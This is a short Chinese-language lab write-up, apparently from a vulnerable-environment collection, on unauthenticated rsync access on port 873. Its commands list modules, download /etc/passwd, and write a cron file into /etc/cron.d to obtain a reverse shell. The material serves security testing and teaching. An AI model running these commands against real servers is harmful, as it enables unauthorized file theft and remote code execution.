 # rsync 未授权访问漏洞

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

## 漏洞测试

编译及运行rsync服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，我们用rsync命令访问之：

```
rsync rsync://your-ip:873/
```

可以查看模块名列表：

[](1.png)

如上图，有一个src模块，我们再列出这个模块下的文件：

```
rsync rsync://your-ip:873/src/
```

[](2.png)

这是一个Linux根目录，我们可以下载任意文件：

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

或者写入任意文件：

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

我们写入了一个cron任务，成功反弹shell：

[](3.png)